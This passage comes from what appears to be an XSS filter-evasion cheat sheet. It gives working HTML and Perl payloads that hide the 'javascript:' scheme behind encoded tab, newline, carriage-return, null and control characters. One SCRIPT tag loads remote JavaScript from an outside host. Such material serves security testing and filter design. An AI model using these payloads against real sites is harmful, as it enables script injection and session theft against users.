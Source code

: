 ```html
 <a href="jav&#x09;ascript:alert('XSS');">Click Me</a>
```

### Embedded Newline to Break Up XSS

While some defenders claim that any of the chars 09-13 (decimal) will work for this attack, this is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. Examine the [ASCII table](https://man7.org/linux/man-pages/man7/ascii.7.html) for reference. The next four XSS attack examples illustrate this vector:

```html
<a href="jav&#x0A;ascript:alert('XSS');">Click Me</a>
```

#### Example 1: Break Up XSS Attack with Embedded Carriage Return

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

```html
<a href="jav&#x0D;ascript:alert('XSS');">Click Me</a>
```

#### Example 2: Break Up JavaScript Directive with Null

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. The null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:

```sh
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

#### Example 3: Spaces and Meta Chars Before the JavaScript in Images for XSS

This is useful if a filter's pattern match doesn't take into account spaces in the word `javascript:`, which is correct since that won't render, but makes the false assumption that you can't have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:

```html
<a href=" &#14;  javascript:alert('XSS');">Click Me</a>
```

#### Example 4: Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefore considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```
